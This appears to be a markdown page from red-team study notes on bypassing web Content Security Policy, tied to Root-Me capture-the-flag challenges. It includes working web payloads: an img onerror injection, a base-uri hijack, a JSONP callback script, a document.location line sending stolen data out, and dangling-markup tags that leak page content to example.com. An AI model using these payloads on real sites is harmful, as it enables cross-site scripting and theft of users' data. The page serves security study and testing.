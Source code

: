 # Content Security Policy (CSP)

[![csp_bypass_nonce](../../../../../_badges/rootme/web_client/csp_bypass_nonce.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Nonce)

<div class="row row-cols-lg-2"><div>

The Content Security Policy (CSP) is a security mechanism designed to make XSS and other web client attacks harder.

* 🐛 We can block inline code execution <small>(no onload/...)</small>
* 🖼️ We can configure the image policy <small>(no external? whitelist? local?)</small>
* 💥 We can configure the script policy <small>(no external? whitelist? local?)</small>
* 🐍 We can configure URLs that we can connect to <small>(ex: fetch(URL))</small>
* ...

We can either use `curl -i URL` and manually inspect the CSP header and meta-tag or use Google [CSP Evaluator](https://csp-evaluator.withgoogle.com/).
</div><div>

Developers can allow some elements to bypass the CSP, such as one specific element allowed to load an external script using a `nonce`.

```html!
<script nonce="some_nonce_here">/*inline code allowed*/</script>
```

☠️ Nonce must be unique and not predictable for them to be useful.

📚 A great reference: [Beyond XSS, CSP bypass](https://aszx87410.github.io/beyond-xss/en/ch2/csp-bypass/) <small>(0.1k ⭐)</small>. Maybe [HTTPLeaks](https://github.com/cure53/HTTPLeaks) <small>(2.0k ⭐)</small> can be handy too?
</div></div>

<hr class="sep-both">

## CSP Bypass

*CSP policies may not be correctly configured and bypassed. Refer to [XSS Malicious Code](/cybersecurity/red-team/s3.exploitation/vulns/web/xss.md#xss-malicious-code) and [XSS Filter Bypass](/cybersecurity/red-team/s3.exploitation/vulns/web/xss.md#xss-filter-bypass) for more details.*

<div class="row row-cols-lg-2"><div>

#### CSP Bypass — unsafe-inline

[![csp_bypass_inline_code](../../../../../_badges/rootme/web_client/csp_bypass_inline_code.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Inline-code)

If `unsafe-inline` is enabled, you can execute code using:

```html!
<img src=1 onerror="your_code_here" />
```

<br>

#### CSP Bypass — base-uri

[![csp_bypass_nonce_2](../../../../../_badges/rootme/web_client/csp_bypass_nonce_2.svg)]()

If the CSP is lax enough, we may be able to inject a base-uri to an external website we control, allowing us to load files from our server.

```html!
<base href="https://example.com" target="_blank">
<img src="img/dummy.jpg"/>
<!-- https://example.com/img/dummy.jpg -->
```
</div><div>

#### CSP Bypass — connect-src 'none'

[![csp_bypass_inline_code](../../../../../_badges/rootme/web_client/csp_bypass_inline_code.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Inline-code)
[![csp_bypass_jsonp](../../../../../_badges/rootme/web_client/csp_bypass_jsonp.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-JSONP)
[![csp_bypass_nonce](../../../../../_badges/rootme/web_client/csp_bypass_nonce.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Nonce)

If `connect-src` is `none`, any external request will fail. Try:

* `document.location = 'URL/?param=' + <stolen_data>` <small>(CTF-only)</small>
* Automatically submit a hidden form after injecting data inside. Refer to [CSRF](/cybersecurity/red-team/s3.exploitation/vulns/web/csrf.md).

<br>

#### CSP Bypass — JSONP — script-src

[![csp_bypass_jsonp](../../../../../_badges/rootme/web_client/csp_bypass_jsonp.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-JSONP)

JSONP was designed to ease the process of connecting an API with the website code: the developer can write code automatically executed after the API has been called within the URL ☠️.

Well-known list of public JSONP APIs: [JSONBee](https://github.com/zigoo0/JSONBee) <small>(0.7k ⭐)</small>. Look if your CSP policy is lax enough to allow any of them to be loaded.

```html!
<!-- don't forget "defer" or "async" -->
<script defer src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1);alert(2)"></script>
```
</div></div>

<hr class="sep-both">

## Dangling markup

[![csp_bypass_dangling_markup](../../../../../_badges/rootme/web_client/csp_bypass_dangling_markup.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Dangling-markup)
[![csp_bypass_dangling_markup2](../../../../../_badges/rootme/web_client/csp_bypass_dangling_markup2.svg)](https://www.root-me.org/en/Challenges/Web-Client/CSP-Bypass-Dangling-markup-2)

<div class="row row-cols-lg-2"><div>

When the CSP is too restrictive and the goal is only to extract some data from the page, we can use dangling markup.

In a nutshell, we insert a tag that will mess with the browser renderer and export the rest of the page to a endpoint we defined.

All of these in Firefox will result in a request to `https://example.com/?<the rest of the HTML page here until the next quote>`.

```html!
<link rel="prefetch" href='https://example.com/?
```
```html!
<img src='https://example.com/?
```
```html!
<meta http-equiv="refresh" content="4; URL='https://example.com/?
```
```html!
<style>@import//example.com?
```

📚 Use either `'` or `"` according to the one that gives the largest range.
</div><div>

Chrome prevents HTTP URLs from containing HTML tags which reduce the number of payloads we can use. FTP didn't work.

The payload below doesn't work in recent versions of edge.

```html!
<body background='//example.com?
<table background='//example.com?
<thead background='//example.com?
<td background='//example.com?
```
</div></div>